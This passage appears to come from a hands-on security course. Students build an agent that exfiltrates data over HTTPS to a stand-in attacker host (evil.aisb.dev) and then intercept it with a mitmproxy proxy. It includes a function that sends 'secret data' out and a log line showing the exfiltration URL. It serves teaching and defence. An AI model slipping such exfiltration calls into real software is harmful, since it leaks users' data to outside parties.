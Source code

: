 ```python
    pass
from w1d2_test import test_make_evil_request_https
test_make_evil_request_https(make_evil_request_https)


# Update the exfiltrate_data function to use HTTPS
exfiltrate_data = make_evil_request_https
```

**Next steps:**
At this point, your agent will attempt to exfiltrate data using HTTPS, making it harder for defenders to inspect the traffic. In the next exercise, we'll switch to the defense side again and have a look at how we can intercept and block these requests using the proxy server.


### Exercise 5: Intercepting HTTPS Traffic

The agent has now switched to HTTPS, encrypting their communication. Let's see what happens when we try to intercept this encrypted traffic with our proxy.

#### Exercise 5.1: Configure HTTPS Proxy

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪
>
> You should spend up to ~5 minutes on this exercise.

First, we need to configure the agent to use our proxy for HTTPS traffic as well.

1. Add HTTPS proxy configuration by **uncommenting this line in docker-compose.yml**:
   ```yaml
   - HTTPS_PROXY=http://mitmproxy:8080  # Add this line
   ```

2. **Re-run the containers**: `docker-compose up`

3. **Observe the error**: You should see something like:
    ```
    agent-container    | SSL Error (certificate issue?): HTTPSConnectionPool(host='evil.aisb.dev', port=443): Max retries exceeded with url: /exfiltrate?data=some_secret_data (Caused by SSLError(SSLCertVerificationError(1, '[SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed: unable to get local issuer certificate (_ssl.c:1017)')))
    ```

<details><summary>Why does this error occur?</summary></details>

#### Exercise 5.2: Understanding Certificate Chains

Before we fix this, let's understand how certificate verification works.

**The Trust Problem**

When you connect to a website over HTTPS, how do you know the server is who it claims to be? This is solved through a **chain of trust**:

```
Root CA Certificate (trusted by OS/browser)
    ↓ signs
Intermediate CA Certificate
    ↓ signs
Server Certificate (evil.aisb.dev)
```
